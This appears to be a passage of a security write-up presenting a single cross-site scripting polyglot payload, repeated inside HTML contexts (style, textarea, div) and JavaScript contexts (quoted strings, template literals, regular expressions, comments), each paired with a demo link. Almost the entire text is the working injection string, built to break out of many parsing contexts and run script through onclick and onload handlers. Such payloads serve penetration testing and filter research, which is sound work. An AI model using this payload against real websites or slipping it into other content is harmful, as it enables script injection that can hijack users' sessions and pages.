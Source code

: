 ```html

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</style>
```
_Demo: <https://jsbin.com/qonawa>_
```html
<textarea>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</textarea>
```
_Demo: <https://jsbin.com/mecexo>_
```html
<div>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</div>
```
_Demo: <https://jsbin.com/wuvumuh>_
#### Script contexts covered:
* __Double-quoted strings:__
```javascript

var str = "jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e";

```
_Demo: <https://jsbin.com/coteco>_
* __Single-quoted strings:__
```javascript

var str = 'jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e';

```
_Demo: <https://jsbin.com/bupera>_
* __Template strings/literals (ES6):__
```javascript

String.raw`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`;

```
_Demo: <https://jsbin.com/rewapay>_
* __Regular expression literals:__
```javascript

var re = /jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e/;

```
_Demo: <https://jsbin.com/zepiti>_
* __Single-line and multi-line comments:__
```html
<script>

//jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

```